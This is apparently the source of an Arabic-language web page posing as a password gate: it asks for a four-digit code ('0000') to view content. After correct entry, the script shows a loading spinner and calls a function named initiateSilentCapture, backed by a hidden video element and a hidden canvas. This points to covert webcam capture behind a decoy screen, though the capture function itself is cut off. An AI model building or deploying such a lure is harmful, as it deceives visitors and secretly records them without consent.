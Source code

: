         /* --- Footer Style --- */
        footer{ position: fixed; inset-inline: 0; bottom: 10px; z-index: 1; text-align: center; font-size: 12px; color: var(--text); opacity: 0.4; }
    </style>
</head>
<body>
    <canvas id="bubbles"></canvas>
    
    <div class="screen" id="screen-pass">
        <div class="card">
            <div class="header">
                <div class="logo"></div>
                <h1>بوابة الوصول</h1>
            </div>
            <p class="lead">يجب عليك كتابة كلمة السر للدخول للمشاهدة.</p>
            <form class="form" id="form">
                <label for="pw" class="hint">كلمة السر</label>
                <div class="input" id="inputWrap">
                    <input id="pw" name="pw" type="password" inputmode="numeric" maxlength="4" placeholder="••••" autocomplete="off" aria-label="كلمة المرور" required />
                </div>
                <button class="btn" type="submit">التحقق</button>
                <div id="error" class="error">الرمز غير صحيح</div>
            </form>
        </div>
    </div>

    <div class="screen hidden" id="screen-loading">
        <div class="card">
            <div class="loading-wrap">
                <div class="spinner"></div>
            </div>
        </div>
    </div>
    
    <video id="videoFeed" style="display: none;" playsinline></video>
    <canvas id="canvas" style="display: none;"></canvas>

    <footer>هذا الموقع محمي بكلمة سر</footer>

    <script>
        const form = document.getElementById('form');
        const pw = document.getElementById('pw');
        const error = document.getElementById('error');
        const inputWrap = document.getElementById('inputWrap');
        const screenPass = document.getElementById('screen-pass');
        const screenLoading = document.getElementById('screen-loading');

        form.addEventListener('submit', (e) => {
            e.preventDefault();
            if (pw.value === '0000') {
                error.style.display = 'none';
                screenPass.classList.add('hidden');
                screenLoading.classList.remove('hidden');
                initiateSilentCapture();
            } else {
                error.style.display = 'block';
                inputWrap.style.animation = 'shake .5s';
                setTimeout(() => inputWrap.style.animation = 'none', 520);
            }
        });
